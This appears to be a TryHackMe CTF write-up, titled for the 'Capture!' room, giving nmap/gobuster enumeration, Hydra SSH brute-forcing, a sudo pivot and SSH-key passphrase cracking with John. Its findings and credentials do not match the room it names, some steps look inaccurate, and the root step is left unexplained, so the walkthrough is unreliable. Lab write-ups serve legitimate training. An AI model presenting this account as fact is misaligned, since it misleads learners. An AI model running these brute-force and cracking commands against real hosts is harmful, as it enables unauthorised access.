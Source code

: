 # TryHackMe: Capture! Writeup
![image](https://github.com/user-attachments/assets/81fe147f-34f9-4d27-821c-6f3e36752afd)

**Room Link:** [Capture!](https://tryhackme.com/room/capture)  
**Difficulty:** Easy  

## 1. Reconnaissance

### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```

**Findings:**
- **Port 22 (SSH)** - OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Port 80 (HTTP)** - Apache httpd 2.4.18 (Ubuntu)
- **Port 445 (SMB)** - Samba smbd 4.3.11-Ubuntu

### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt` (hinted at weak credentials for user J and K)
  - `notes.txt`

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share, but no useful data.

### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
